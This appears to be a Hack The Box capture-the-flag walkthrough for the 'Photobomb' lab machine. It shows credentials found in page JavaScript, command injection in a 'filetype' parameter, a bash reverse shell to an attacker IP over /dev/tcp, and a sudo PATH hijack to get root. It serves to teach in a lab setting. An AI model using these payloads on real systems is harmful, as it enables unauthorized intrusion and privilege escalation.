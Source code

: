# 📸 HTB Photobomb – Walkthrough (Easy Linux)

## 01 – Enumeration

### 🔍 Nmap Scan

**Command:**

```bash
nmap -sC -sV -oA nmap/photobomb 10.10.11.182
```

**Result:**

- `22/tcp` – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)
    
- `80/tcp` – nginx 1.18.0 (Ubuntu)
    
- Virtual host: `photobomb.htb`
    

**Action:** Add the hostname to `/etc/hosts`

```bash
sudo nano /etc/hosts
```

Add this line:

```
10.10.11.182    photobomb.htb
```

### 🧠 Key Findings

- SSH is open – potential access vector after exploitation.
    
- The web server serves content for `photobomb.htb`, not just the IP.
    

---

## 02 – Initial Access

### 🔐 Discovered Credentials

While viewing the page source (`Ctrl+U`), a script tag references `photobomb.js`. Inside the JS code:

```javascript
// Jameson: pre-populate creds for tech support...
document.getElementsByClassName('creds')[0].setAttribute(
  'href',
  'http://pH0t0:b0Mb!@photobomb.htb/printer'
);
```

**Credentials:**

- Username: `pH0t0`
    
- Password: `b0Mb!`
    

**Login URL:**

```
http://photobomb.htb/printer
```

### ✅ Access Confirmed

This endpoint is protected via **Basic Auth**. After logging in, it reveals a photo download panel with options to:

- Set dimensions (e.g., 30x20)
    
- Select file type (e.g., JPG, PNG)
    
- Submit download
    

---

### 🧠 Observations

- The image download triggers backend processing (likely ImageMagick or similar)
    
- Parameters in the POST request may be vulnerable to injection
    

**Next:** Use **Burp Suite** to intercept and test for vulnerabilities in form parameters.

---

## 03 – Exploitation: Remote Code Execution (RCE)

### 🔎 Testing with Burp

When intercepting the request in Burp, we noticed:

```
POST /printer HTTP/1.1
Host: photobomb.htb
Authorization: Basic cEgwdDBiOmIwTWIh
Content-Type: application/x-www-form-urlencoded

photo=1337&filetype=jpg;id
```

- Adding `;id` to `filetype` executed system command `id`
    

➡️ **This confirms a command injection vulnerability.**

---

### 🔙 Gaining Reverse Shell

**Reverse shell payload (Bash):**

```bash
filetype=jpg;bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
```

Start listener on attacker machine:

```bash
nc -lvnp 4444
```

After submission, a shell is received as user `wizard`:

```bash
wizard@photobomb:~/photobomb$
```

To stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## 04 – Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```
User wizard may run the following command:
  (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

➡️ We can run `/opt/cleanup.sh` as root with custom environment variables.

### 🔍 Script Analysis

```bash
cat /opt/cleanup.sh
```

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

**Notice:** The script uses `find` without full path. We can hijack it via `$PATH`.

---

### 🚀 Exploiting PATH Hijack

1. Create malicious `find` in `/dev/shm`
    

```bash
cd /dev/shm
echo -e '#!/bin/bash\nbash' > find
chmod +x find
```

2. Run cleanup script with manipulated PATH:
    

```bash
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh
```

➡️ Root shell gained ✅

```bash
root@photobomb:/home/wizard/photobomb#
```

---

## 🏁 Flags

### 🧑‍💻 User Flag

```bash
cat /home/wizard/user.txt
```

```
HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

### 👑 Root Flag

```bash
cat /root/root.txt
```

```
HTB{yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy}
```

---

## ✅ Summary

- Initial foothold via credentials found in JS
    
- Command injection in `filetype` param → reverse shell
    
- `sudo` rights on `cleanup.sh` using `find` → PATH hijack → root
    
- Optional: Advanced method with `enable -n` and `BASH_ENV`
    

---

🎯 **Machine pwned.**